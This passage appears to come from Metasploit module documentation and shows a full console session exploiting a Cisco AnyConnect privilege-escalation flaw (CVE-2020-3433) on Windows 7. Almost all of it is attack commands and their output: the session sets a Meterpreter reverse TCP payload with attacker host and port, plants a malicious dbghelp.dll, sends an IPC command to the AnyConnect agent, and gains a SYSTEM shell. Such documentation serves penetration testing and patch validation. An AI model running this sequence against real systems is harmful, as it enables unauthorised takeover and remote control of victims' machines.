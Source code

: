 ```
Meterpreter     : x86/windows
```

### Windows 7 SP1  with AnyConnect 4.7.4056 - CVE-2020-3433

```
msf exploit(windows/local/anyconnect_lpe) > set session 4
session => 4
msf exploit(windows/local/anyconnect_lpe) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/local/anyconnect_lpe) > set lhost 192.168.1.24
lhost => 192.168.1.24
msf exploit(windows/local/anyconnect_lpe) > set lport 4445
lport => 4445
msf exploit(windows/local/anyconnect_lpe) > set verbose true
verbose => true
msf exploit(windows/local/anyconnect_lpe) > set cve CVE-2020-3433
cve => CVE-2020-3433
msf exploit(windows/local/anyconnect_lpe) > check 

[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
msf exploit(windows/local/anyconnect_lpe) > run

[*] Started reverse TCP handler on 192.168.1.24:4445 
[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.7.4056.0.0 < 4.8.02042 (CVE-2020-3153 & CVE-2020-3433).
[*] "-ipc" argument needed
[*] Creating directory C:\Users\atgo\AppData\Local\Temp\fPTN4o
[*] Meterpreter Session
[*] C:\Users\atgo\AppData\Local\Temp\fPTN4o created
[*] Writing the payload to C:\Users\atgo\AppData\Local\Temp\fPTN4o\dbghelp.dll
[*] IPC Command: "CAC-nc-install        -ipc=88243      C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe     C:\Users\atgo\AppData\Local\Temp\fPTN4o\dbghelp.dll"
[*] Connecting to the AnyConnect agent on 127.0.0.1:62522
[*] Send the encoded IPC command (size = 288 bytes)
[*] Sending stage (176195 bytes) to 192.168.1.20
[*] Meterpreter session 6 opened (192.168.1.24:4445 -> 192.168.1.20:45102) at 2020-09-01 14:24:48 +0200
[+] Deleted C:\Users\atgo\AppData\Local\Temp\fPTN4o\dbghelp.dll
[+] Deleted C:\Users\atgo\AppData\Local\Temp\fPTN4o
[*] Shutdown the socket

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : ATGO-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
